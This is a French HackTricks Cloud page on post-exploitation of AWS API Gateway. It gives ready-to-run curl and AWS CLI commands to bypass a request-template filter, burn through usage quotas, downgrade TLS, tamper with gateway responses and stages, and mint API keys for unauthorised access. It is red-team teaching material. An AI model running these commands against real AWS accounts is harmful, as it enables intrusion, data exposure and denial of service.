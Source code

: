 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accéder aux API non exposées

Vous pouvez créer un point de terminaison dans [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) avec le service `com.amazonaws.us-east-1.execute-api`, exposer le point de terminaison dans un réseau auquel vous avez accès (potentiellement via une machine EC2) et attribuer un groupe de sécurité permettant toutes les connexions.\
Ensuite, depuis la machine EC2, vous pourrez accéder au point de terminaison et donc appeler l'API de la passerelle qui n'était pas exposée auparavant.

### Contourner le passage du corps de la requête

Cette technique a été trouvée dans [**ce compte rendu de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Comme indiqué dans la [**documentation AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) dans la section `PassthroughBehavior`, par défaut, la valeur **`WHEN_NO_MATCH`**, lors de la vérification de l'en-tête **Content-Type** de la requête, transmettra la requête au backend sans transformation.

Par conséquent, dans le CTF, la passerelle API avait un modèle d'intégration qui **empêchait le drapeau d'être exfiltré** dans une réponse lorsqu'une requête était envoyée avec `Content-Type: application/json` :

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Cependant, l'envoi d'une requête avec **`Content-type: text/json`** empêcherait ce filtre.

Enfin, comme l'API Gateway n'autorisait que `Get` et `Options`, il était possible d'envoyer une requête dynamoDB arbitraire sans aucune limite en envoyant une requête POST avec la requête dans le corps et en utilisant l'en-tête `X-HTTP-Method-Override: GET` :

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plans d'utilisation DoS

Dans la section **Énumération**, vous pouvez voir comment **obtenir le plan d'utilisation** des clés. Si vous avez la clé et qu'elle est **limitée** à X utilisations **par mois**, vous pourriez **simplement l'utiliser et provoquer un DoS**.

La **clé API** doit simplement être **incluse** dans un **en-tête HTTP** appelé **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateGatewayResponse` et `apigateway:CreateDeployment` peut **modifier une réponse de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateStage` et `apigateway:CreateDeployment` peut **modifier une étape existante de l'API Gateway pour rediriger le trafic vers une autre étape ou changer les paramètres de mise en cache pour obtenir un accès non autorisé aux données mises en cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès non autorisé aux données mises en cache, perturbation ou interception du trafic API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaquant ayant les autorisations `apigateway:PutMethodResponse` et `apigateway:CreateDeployment` peut **modifier la réponse de méthode d'une méthode API Gateway REST API existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateRestApi` et `apigateway:CreateDeployment` peut **modifier les paramètres de l'API Gateway REST API pour désactiver la journalisation ou changer la version minimale de TLS, affaiblissant potentiellement la sécurité de l'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Affaiblissement de la sécurité de l'API, permettant potentiellement un accès non autorisé ou exposant des informations sensibles.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaquant avec les autorisations `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, et `apigateway:CreateUsagePlanKey` peut **créer de nouvelles clés API, les associer à des plans d'utilisation, puis utiliser ces clés pour un accès non autorisé aux API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impact potentiel** : Accès non autorisé aux ressources API, contournement des contrôles de sécurité.

{% hint style="info" %}
Besoin de tests
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
